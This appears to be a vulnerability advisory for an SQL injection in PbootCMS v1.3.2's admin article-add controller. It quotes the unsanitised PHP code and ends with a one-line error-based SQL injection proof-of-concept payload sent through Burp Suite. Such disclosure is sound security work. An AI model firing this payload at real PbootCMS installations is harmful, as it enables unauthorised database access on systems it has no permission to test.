


# PbootCMS SQL Injection

Vendor HomePage : https://www.pbootcms.com/

Software Link : https://gitee.com/hnaoyun/PbootCMS

Affected Version : v1.3.2


## 0x01 Vulnerability description

The string of the **$description** parameter transmission is completely without check and filter, it will lead to the existence of SQL injection vulnerability.

Code source : \apps\admin\controller\content\ContentController.php at line 68-154


```php
	// 文章增加
    public function add()
    {
        if ($_POST) {
            
            // 获取数据
            $scode = post('scode');
            $subscode = post('subscode');
            $title = post('title');
            $titlecolor = post('titlecolor');
            $subtitle = post('subtitle');
            $filename = post('filename');
            $author = post('author');
            $source = post('source');
            $outlink = post('outlink');
            $date = post('date');
            $ico = post('ico');
            $pics = post('pics');
            $content = post('content');
            $tags = str_replace('，', ',', post('tags'));
            $enclosure = post('enclosure');
            $keywords = post('keywords');
            $description = post('description');
            $status = post('status', 'int');
            $istop = post('istop', 'int', '', '', 0);
            $isrecommend = post('isrecommend', 'int', '', '', 0);
            $isheadline = post('isheadline', 'int', '', '', 0);
            
            if (! $scode) {
                alert_back('内容分类不能为空！');
            }
            
            if (! $title) {
                alert_back('文章标题不能为空！');
            }
            
            // 自动提起前一百个字符为描述
            if (! $description && isset($_POST['content'])) {
                $description = substr_both(strip_tags($_POST['content']), 0, 150);
            }
            
            // 缩放缩略图
            if ($ico) {
                resize_img(ROOT_PATH . $ico, '', $this->config('ico.max_width'), $this->config('ico.max_height'));
            }
            
            // 检查自定义文件名称
            if ($filename) {
                while ($this->model->checkFilename("filename='$filename'")) {
                    $filename = $filename . '_' . mt_rand(1, 20);
                }
            }
            
            // 构建数据
            $data = array(
                'acode' => session('acode'),
                'scode' => $scode,
                'subscode' => $subscode,
                'title' => $title,
                'titlecolor' => $titlecolor,
                'subtitle' => $subtitle,
                'filename' => $filename,
                'author' => $author,
                'source' => $source,
                'outlink' => $outlink,
                'date' => $date,
                'ico' => $ico,
                'pics' => $pics,
                'content' => $content,
                'tags' => $tags,
                'enclosure' => $enclosure,
                'keywords' => $keywords,
                'description' => clear_html_blank($description),
                'sorting' => 255,
                'status' => $status,
                'istop' => $istop,
                'isrecommend' => $isrecommend,
                'isheadline' => $isheadline,
                'visits' => 0,
                'likes' => 0,
                'oppose' => 0,
                'create_user' => session('username'),
                'update_user' => session('username')
            );
            
            // 执行添加
            if (! ! $id = $this->model->addContent($data)) {
                // 扩展内容添加
                

```

The function of clear_html_blank() is as follows:

```php
// 清洗html代码的空白符号
function clear_html_blank($string)
{
    $string = str_replace("\r\n", '', $string); // 清除换行符
    $string = str_replace("\n", '', $string); // 清除换行符
    $string = str_replace("\t", '', $string); // 清除制表符
    $string = str_replace(' ', '', $string); // 清除大空格
    $string = str_replace('&nbsp;', '', $string); // 清除 &nbsp;
    $string = preg_replace('/\s+/', ' ', $string); // 清除空格
    return $string;
}
```

The variable named $description, is only process by the strip_tags(), mb_substr() and clear_html_blank() functions, and is direclty queried into the sql statement, so there is a sql injection vulnerability.


## 0x02 Proof of  Concept

In "news add" table, We use Burpsuite to modify the **content**  like this:

```
testPOC' or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a) or '
```




